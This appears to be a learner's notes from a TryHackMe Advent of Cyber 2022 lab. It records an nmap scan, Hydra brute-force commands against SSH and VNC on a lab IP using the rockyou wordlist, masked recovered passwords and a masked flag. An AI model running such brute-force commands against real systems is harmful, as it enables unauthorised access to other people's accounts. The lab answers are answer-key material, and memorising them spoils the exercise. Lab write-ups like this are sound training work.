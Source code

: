 -----------------------------
	TryHackMe!
Advant of Cyber 4 2022
export $IP=10.10.45.218
   Date - 5/12/2022
-----------------------------

-------------------
# Full Forms -->
-------------------

SSH = Secure Shell
RDP = Remote Desktop Protocol
VNC = Virtual Network Computer

---------------------------------------------------
# Scanning Phase (Result is in the directory) --> 
---------------------------------------------------
## NMAP -->
	nmap -vv -sSV 10.10.45.218 -oN nmap/initial

-----------------------------------
# Password Brute Force Atteck -->
-----------------------------------
## Hydra -->
	SSH -->
		hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.218
	VNC -->
		hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 vnc://10.10.45.218

port 5900 is default for vnc.

------------------------------------------------
## process of stablishing the vnc Connect -->
------------------------------------------------
After Determining the password for vnc i installed a opensource and free application called `Remmina` and then connected through the ip and the password.

### syntax to install the app :--
	`sudo apt install remmina -y`

----------------
# PASSWORDS -->
----------------
## SSH:-->
	s****a

## VNC:-->
	1******r

----------------------------
# Questions & Answers -->
----------------------------

## 1. Use Hydra to find the VNC password of the target with IP address MACHINE_IP. What is the password? -->
----------------------------------------------------------------------------------------------------------------------
--> 1******r

-------------------
## 2. Flag -->
-------------------
-->	THM{I*************EN}

